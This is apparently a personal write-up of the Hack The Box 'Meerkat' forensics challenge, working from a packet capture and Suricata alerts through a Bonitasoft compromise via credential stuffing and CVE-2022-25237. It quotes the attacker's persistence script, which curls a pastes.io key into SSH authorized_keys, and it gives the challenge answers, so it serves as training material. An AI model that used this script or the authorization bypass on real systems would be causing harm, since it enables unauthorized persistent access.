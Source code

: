 ```yaml
--- 
date: 2025-10-15T23:12:45+03:00 
title: Meerkat (HTB Sherlock Writeup)
description: ""
tags: ["htb", "sherlocks"]
--- 
```


First of all we download the files, we have "meerkat.pcap" and "meerkat-alerts.json".

For now we are going to review the .pcap with Wireshark and the JSON file with JSONViewer (https://jsonviewer.stack.hu/).

Having a quick look, Meerkat is a Suricata, which is giving us a clue that the JSON log might be the lof of the Suricata IPS/IDS system.

Reviewing the JSON file, we find two entries that highlight from the rest, the number 13 and 27.

![json-13](Pasted-image-20251015235443.png)
![json-27](Pasted-image-20251015235501.png)

While checking the meerkat.pcap file we can notice multiple RST and ACK, with high acknowledgemente numbers, coming from 172.31.6.44 to 156.146.62.213. This looks like some kind of scan.

---
<h2>Task 1</h2>

<h4>We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?</h4>

If we filter by http, we can appreciate that there are multiple login attempts at /bonita/loginservice. Looking for this path at google we'll find the Bonitasoft forum.

Answer: `Bonitasoft`.

---
<h2>Task 2</h2>

<h4>We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?</h4>

Taking a closer look at the different POST we can see really "specific" usernames and passwords, which are both changing on each try. This credentials are probably coming from leaked credentials and not lists. This kind of brute forcing is called Credential Stuffing.

![](Pasted-image-20251016105635.png)

Answer: `Credential Stuffing`.

---
<h2>Task 3</h2>

<h4>Does the vulnerability exploited have a CVE assigned - and if so, which one?</h4>

Checking at the different http requests we can find a successful login, leading to a HTTP 204 code.
 "username=seb.broom%40forela.co.uk&password=g0vernm3nt&_l=en"

![](Pasted-image-20251016105905.png)

This successful request is apparently trying to upload a file to /bonita/API/pageUpload with the name rce_api_extension.zip

Unfortunately, this is not only a try, because the attacker was able to upload the file, receiving a HTTP 200 code. After this, the attacker is able to execute remote code (RCE), giving him access as root on the vulnerable machine.

![](Pasted-image-20251016110437.png)

With this information, we'll look at https://www.cve.org/ for RCE vulnerabilities at Bonitasoft. 

![](Pasted-image-20251016110603.png)

Having a quick look at the first description given, at the third one, CVE-2022-25237 we can see some text we've seen before at wireshark, the ";i18ntranslation or /../i18ntranslation/".

![](Pasted-image-20251016110747.png)
![](Pasted-image-20251016110827.png)

By the description, appending it users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions, as we can see that happened.

Answer: `CVE-2022-25237`

---
<h2>Task 4</h2>

<h4>Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?</h4>

Answer: `i18ntranslation`

---
<h2>Task 5</h2>

<h4>How many combinations of usernames and passwords were used in the credential stuffing attack?</h4>

For this, we'll filter in wireshark http.request.method == "POST" && http.request.uri == "/bonita/loginservice"

This filter is displaying 118 packets, but there are some credentials that are repeated, so we'll need to tune it a little bit more.

For this, we'll use tshark instead of wireshark.

```
tshark -r meerkat.pcap \
  -Y 'http.request.method=="POST" && http.request.uri=="/bonita/loginservice"' \
  -T fields -e http.file_data \
| xxd -r -p \
| grep -oE 'username=[^&]*&password=[^&]*' \
| sed -E 's/username=([^&]*)&password=([^&]*)/\1\t\2/' \
| sort -u  
```

This command will allow us to extract the post body, then decode it from hext to raw text, isolate the username and password, then display it with proper format and deduplicate.

![](Pasted-image-20251016112051.png)

To this command, we can append  ```| wc -l```, giving us a count of lines, in this case 57. I tried this number and it was not the right answer, then I saw install install at the credentials, and tried leaving this one outside, which worked.

Answer: `56`

---

<h2>Task 6</h2>

<h4>Which username and password combination was successful?</h4>

As said before "username=seb.broom%40forela.co.uk&password=g0vernm3nt&_l=en" was the successful request.

Being %40 the character @, the username was seb.broom@forela.co.uk and the password g0vernm3nt.

Answer: `seb.broom@forela.co.uk:g0vernm3nt`

---

<h2>Task 7</h2>

<h4>If any, which text sharing site did the attacker utilise?</h4>

From our previous quick look at the .json file, we saw two entries that were different than the rest, having the pastes.io url. I didn't know this site, but after a quick look we can confirm that is a text sharing site.

Answer: `pastes.io`

---
<h2>Task 8</h2>

<h4>Please provide the filename of the public key used by the attacker to gain persistence on our host.</h4>

![](Pasted-image-20251016114347.png)

Following the HTTP stream of the RCE attack, we see the attacker executing wget to the pastes.io site https://pastes.io/raw/bx5gcr0et8 

To access the site, we'll try first using https://cachedview.com/ 

In this case, there's a cached version of the website from 23rd of March from 2023. The text contained is:
```
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

Answer: `hffgra4unv`

---
Task 9

<h4>Can you confirm the file modified by the attacker to gain persistence?</h4>

Answer: `/home/ubuntu/.ssh/authorized_keys`

---
<h2>Task 10</h2>

<h4>Can you confirm the MITRE technique ID of this type of persistence mechanism?</h4>

For this, we'll go to Mitre ATT&CK and check at persistence, where SSH Authorized Keys Account Manipulation has the ID T1098.004.

https://attack.mitre.org/tactics/TA0003/
https://attack.mitre.org/techniques/T1098/004/

Answer: `T1098.004`

---

![](Pasted-image-20251016120750.png)

This Sherlock is the first writeup I'm doing and even if overwall the machine was easy, it was interesting to document the process.

From the defensive point of view, there should be some countermeasures against nmap scans like the one that happened during the attack.

Suricata was installed and giving alerts (not really specific), but not properly configured to contain and or block the requests via firewall.

It's also important to keep the software updated to avoid vulnerabilities as the CVE used to RCE, which was fixed in posterior versions.

https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/